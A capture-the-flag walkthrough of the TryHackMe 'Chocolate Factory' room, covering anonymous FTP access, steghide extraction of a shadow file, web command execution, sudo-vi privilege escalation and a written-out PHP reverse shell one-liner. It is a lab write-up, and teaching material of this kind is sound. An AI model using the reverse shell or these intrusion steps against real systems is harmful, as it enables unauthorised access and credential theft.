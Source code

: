 # Chocolate Factory
[Back to Tryhackme page](../index.md)

---

## Enumeration
Starting with enumeration of machine using nmap.

![nmap scan](nmap%20scan%201.png)

We get to see many open ports but let's focus on important once first.
FTP , SSH and HTTP are common and important ports so let's investigate them first.

![nmap scan](nmap%20scan%202.png)

FTP allows anonymous logins to let's check that.

---

## FTP 
Logging into FTP as anonymous gives us image name "gum_room.jpg" .
Using steg tools we can check if there is any hidden file under it or any clue in metadata of image.

![FTP](FTP.png)

Using steghide to check if any hidden file present under image.

![steghide](steghide%201.png)

b64.txt is hidden file here. Let's extract it.

![steghide](steghide%202.png)

![b64 text file](b64%20text%20file.png)

Reading file clearly shows this is encoded in base64 so let's decode it first.

![decoded b64](b64%20decode.png)

This file is clearly shadow file of system.

---

## HTTP 

index.html file shows login system so let's try bruteforcing into it using charlie as username. Let's also check for other interesting directories.

![Gobuster](gobuster.png)

home.php seems interesting one.

![php](home%20php.png)

It gives us command execution capacity.Using simple "cat validate.php | grep password" we get password.

![Charlie password](charlie%20passwd.png)

Logging into charlie again redirects us to home.php so HTTP is enumeration is complete.

We can get reverse shell through command execution so let's do that!

---

## Reverse shell
We get reverse shell by executing this command "php -r '$sock=fsockopen("ip",port);exec("sh <&3 >&3 2>&3");'" 

![key](key.png)

Got the key !
Let's check home directories for users. There is only one user charlie. 

![private rsa key](private%20rsa%20key.png)

teleport has rsa private key so we can now get ssh access to charlie. 

![](no%20password.png)

There is no password on privte key.

---

## User flag
We got user flag by logging into charlie account.

![user flag](chocolate%20factory%20user%20flag.png)

---

## Root flag
Charlie has sudo access for vi. Let's check gtfobins for possible explotations.

![Sudo](sudo%20l.png)

![gtfobins](gtfobins.png)

By running this command we get root shell. There is root.py in root directory which will give us flag. It requires binary key we got earlier.

![Root flag](chocolate%20factory%20root%20flag.png)

Got root flag!

---

### Sources :

- [Tryhackme room chocolate factory](https://tryhackme.com/room/chocolatefactory)
